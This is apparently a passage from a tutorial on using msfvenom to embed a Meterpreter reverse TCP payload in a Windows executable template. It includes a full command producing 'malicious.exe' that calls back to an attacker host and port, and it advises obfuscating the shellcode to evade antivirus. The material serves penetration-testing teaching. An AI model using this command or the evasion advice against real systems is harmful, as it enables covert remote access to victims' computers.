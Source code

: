 ### **5. Example Usage**

Here's a full example where `msfvenom` generates a reverse TCP payload and embeds it into a Windows executable template:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -x /usr/share/windows-binaries/exe-template.exe -f exe -o malicious.exe
```

- **Payload**: `windows/meterpreter/reverse_tcp` is used.
- **LHOST & LPORT**: Set to the attacker's IP and listening port.
- **Template**: `/usr/share/windows-binaries/exe-template.exe` is the template executable file.
- **Format**: The output format is an executable (`exe`).
- **Output**: The final file is saved as `malicious.exe`.

### **6. Custom Templates**

If the default templates or provided templates don’t meet your needs, you can create your own templates. This involves creating a valid executable with placeholders for shellcode and using it with the `-x` option in `msfvenom`.

### **7. Considerations**

- **Detection**: The resulting executable may be flagged by antivirus software because it contains malicious shellcode.
- **Obfuscation/Evasion**: To avoid detection, you may need to obfuscate the shellcode or use more advanced techniques to embed the payload in a less detectable way.
- **Execution**: The final binary, when executed, will run the embedded shellcode, leading to the desired payload execution (e.g., creating a reverse shell back to the attacker).

This process allows Metasploit users to create custom executables that contain payloads, making it a powerful tool for penetration testing and red teaming.

## Binary Template Creation

Creating your own binary template for use with `msfvenom` involves several steps. You'll be crafting a valid executable (or another binary format) that includes a placeholder where the shellcode will be injected. Here’s a step-by-step guide:

### 1. **Understand the Structure of a Binary Template**

A binary template is essentially a legitimate executable file with a specific location or placeholder where shellcode can be inserted. The key is ensuring that the binary still functions correctly after the shellcode is injected and that the shellcode is executed when the binary runs.

### 2. **Create a Simple Executable**

You can start by creating a simple C or C++ program that does something basic, like printing a message. This will be your base executable template.

#### Example: Simple C Program
```c
#include <stdio.h>

int main() {
    printf("This is a simple template.\n");
    return 0;
}
```
